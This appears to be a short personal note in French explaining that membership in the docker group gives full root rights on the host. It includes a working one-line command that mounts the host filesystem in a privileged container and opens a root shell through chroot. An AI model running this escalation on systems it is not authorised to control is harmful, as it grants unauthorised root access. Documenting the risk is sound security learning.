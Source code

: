 ```yaml
---
id: s2djd64snzp00vdzn9j2zsc
title: Docker privilege escalation
desc: ''
updated: 1708968202099
created: 1708968202099
---
```


# Les dangers du groupe docker

Si un utilisateur a le groupe docker alors il a toutes les droits sur la machine.
il peut utiliser un container du genre alpine ou ubuntu pour remonter le systeme en mode root 

```bash
docker run --rm -it -u root --privileged -v /:/mnt -v /var:/mnt/var -v /home/:/mnt/home ubuntu:22.04 chroot /mnt /bin/bash
```

---
Sources:
    - https://blog.creekorful.org/2020/08/docker-privilege-escalation/